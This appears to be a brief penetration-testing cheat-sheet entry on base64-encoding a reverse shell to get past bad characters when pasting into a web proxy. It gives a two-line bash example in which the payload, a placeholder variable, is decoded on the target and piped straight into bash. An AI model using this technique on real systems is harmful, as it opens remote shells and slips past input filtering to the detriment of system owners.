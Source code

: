# Encoding reverse shell

Encoding a reverse shell in base64 can help with bad chars when pasting in a web proxy.

## Example
```bash
# on host

echo -n "$REV_SHELL" | base64

# on target

echo -n "$BASE64" | base64 -d | bash
```